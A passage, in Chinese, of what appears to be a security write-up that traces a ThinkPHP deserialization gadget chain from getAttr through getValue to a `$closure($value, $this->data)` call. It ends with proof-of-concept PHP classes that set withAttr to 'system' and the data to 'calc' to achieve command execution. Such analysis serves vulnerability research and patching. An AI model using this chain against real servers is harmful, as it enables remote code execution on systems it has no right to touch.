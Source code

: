 ![image-20211102235621210](images/16.png)

这里就相当于直接返回了应该`$this->data[$key]`

回到getAttr函数,下一步会调用getValue

![image-20211102235710087](images/17.png)

跟进getValue

![image-20211102235740024](images/18.png)

看到这里是一个可用rce的点

```
$value   = $closure($value, $this->data);
```

先判断是否存在`$this->withAttr[$fieldName]`这里的`$this->withAttr[$fieldName]`并不是数组所以会进入else语句

执行到

```
$closure = $this->withAttr[$fieldName];
$value   = $closure($value, $this->data);
```

`$this->withAttr[$fieldName]`和`$this->data`是可控的,而`$this->data`即是他的键值

那只要让`$closure='system'`然后`$value`为要执行的命令即可

`$value`的值是在getData里面可以控制的

都能控制,那这样就可以去rce了

## 漏洞复现

poc如下

```
<?php

namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave = false;
    private $exists = true;
    private $data = [];
    protected $withEvent = true;
    function __construct($obj)
    {
        $this->lazySave = true;
        $this->exists = true;
        $this->withEvent = false;
        $this->data = ['key' => 'calc'];
        $this->table = $obj;
        $this->strict = true;
        $this->visible = ["key" => 1];
    }
}

namespace think\model\concern;

trait Attribute
{
    private $withAttr = ["key" => "system"];
}
```
